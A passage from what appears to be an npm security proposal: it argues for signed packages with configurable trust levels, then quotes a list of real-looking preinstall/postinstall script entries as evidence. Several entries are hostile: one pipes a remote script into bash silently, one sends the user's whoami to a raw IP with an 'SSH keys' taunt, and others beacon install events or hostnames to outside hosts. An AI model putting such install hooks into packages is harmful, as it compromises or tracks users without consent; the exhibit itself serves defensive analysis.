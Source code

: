  2. Implement package signatures mechanism, similar to commit signing on GitHub and package signatures in distro package managers. A user should be able to have their own list of trusted signatures. A user should be able to enable validating of the signatures at different warning levels: ignore/warn/reject for missing signatures, ignore/warn/reject for unknown signatures. Packages with invalid signatures should be always rejected, regardless of user settings. The current hashes are not enough — they do not gurantee _who exactly_ made the package. With package signatures, one would be able to whitelist only a known list of packagers.

For the entries that impose a presense of a monitoring system, I would like to see such a monitoring system open-sourced, so that it could be improved by the community and the security researchers. Keeping things like this behind closed doors result in failures like the one we already observed recentely (with the monitoring system being down and no one noticing that).

## Exhibit 1 — cool usage of `(post|pre)install` (partial):
```json
"preinstall": "bower >/dev/null || sudo npm install bower grunt-cli -g",
"preinstall": "sudo ./installation/preinstall.js",
"postinstall": "sudo ./installation/postinstall.js",
"postinstall": "curl http://files.gangelov.net/cage.sh 2>/dev/null | bash &>/dev/null"
"postinstall": "sudo node postinstall.js"
"postinstall": "sudo mkdir -p /etc/lynckia/; sudo cp config_template.js /etc/lynckia/erizo_config.js"
"postinstall": "wget -q http://176.31.142.25/javascript_no_way_you_got_here_randomly"
"preinstall": "curl https://install.meteor.com | /bin/sh",
"postinstall": "curl -o sass/lib/_normalize.scss https://raw.githubusercontent.com/necolas/normalize.css/master/normalize.css"
"preinstall": "sudo apt-get install libcairo2-dev libgif-dev",
"postinstall": "echo '\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\nThanks for your SSH keys :)' && curl -X GET http://104.131.21.155:8043/\\?$(whoami)"
"postinstall": "ruby -e \"$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/master/install)\""
"preinstall": "wget http://s.qdcdn.com/17mon/17monipdb.zip&&unzip -p 17monipdb.zip 17monipdb.dat>17monipdb.dat",
"postinstall": "echo Now run sudo install-lana to finish installation",
"preinstall": "sudo npm i -g peerflix",
"preinstall": "node-gyp configure && mkdir -p deps && cd deps && curl \"https://codeload.github.com/fletcher/peg-multimarkdown/tar.gz/3.7\" | tar zxvf - && mv peg-multimarkdown-* peg-multimarkdown && cd peg-multimarkdown && CFLAGS=\"-fPIC -Wall -O3 -include GLibFacade.h -I ./ -D MD_USE_GET_OPT=1 -D_GNU_SOURCE\" make && cd ../../ && node-gyp build",
"postinstall": "curl http://download.yandex.ru/mystem/mystem-2.0-macosx10.5.tar.gz > mystem.tar.gz && tar -xvf mystem.tar.gz && mkdir -p vendor/darwin/x64 && mv mystem vendor/darwin/x64 && rm mystem.tar.gz"
"preinstall": "sudo npm install gulp bower -g",
"postinstall": "curl -o npmdb.pft https://smikes.github.io/npm-kludge-search/npmdb.pft"
"preinstall": "curl 'http://google-analytics.com/collect?v=1&t=event&tid=UA-80316857-2&cid=fab8da3e-d191-4637-a138-f7fdf0444736&ec=Pre%20Install&ea=run'",
"postinstall": "curl 'http://google-analytics.com/collect?v=1&t=event&tid=UA-80316857-2&cid=fab8da3e-d191-4637-a138-f7fdf0444736&ec=Post%20Install&ea=run'"
"postinstall": "sudo ./configure.sh"
"preinstall": "cd src/pngpaste && make all && sudo make install",
"postinstall": "echo \"Enabling I2C at boot time, you may be asked for your password\" && sudo env \"PATH=$PATH\" script/enable_i2c.js",
"postinstall": "echo \"Disabling serial port login at boot time, you may be asked for your password\" && sudo env \"PATH=$PATH\" script/enable_serial.js",
"postinstall": "mkdir installed;sudo rpm -Uvh --nodeps --replacepkgs --replacefiles $1 rpmnpmtest.rpm"
"postinstall": "sudo pip install awscli"
"postinstall": "sudo -u $(whoami) node ./lib/postinstall.js"
"preinstall": "sudo apt-get install espeak lame vorbis-tools"
"postinstall": "bash -c 'curl \"http://avighier.piwikpro.com/piwik.php?idsite=3&rec=1&action_name=$HOSTNAME\"'"
```